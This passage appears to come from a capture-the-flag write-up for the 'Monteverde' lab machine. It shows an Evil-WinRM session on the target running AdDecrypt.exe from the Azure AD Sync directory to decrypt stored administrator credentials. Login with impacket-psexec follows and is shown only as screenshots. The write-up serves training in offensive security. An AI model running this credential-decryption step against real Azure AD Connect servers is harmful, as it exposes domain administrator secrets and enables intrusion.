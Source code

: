 Per the GitHub we'll need to be in the `C:\Program Files\Microsoft Azure AD Sync\Bin` directory on the target. And from there all we need to run is:

```text
*Evil-WinRM* PS C:\Program Files\Microsoft Azure AD Sync\Bin> C:\TEMP\AdDecrypt.exe -FullSQL
```

And the script will decrypt the stored credentials for the administrator:

![creds.png](../assets/monteverde_assets/creds.png)

We can now use impacket-psexec to login to the box as the administrator:

![psexec.png](../assets/monteverde_assets/psexec.png)
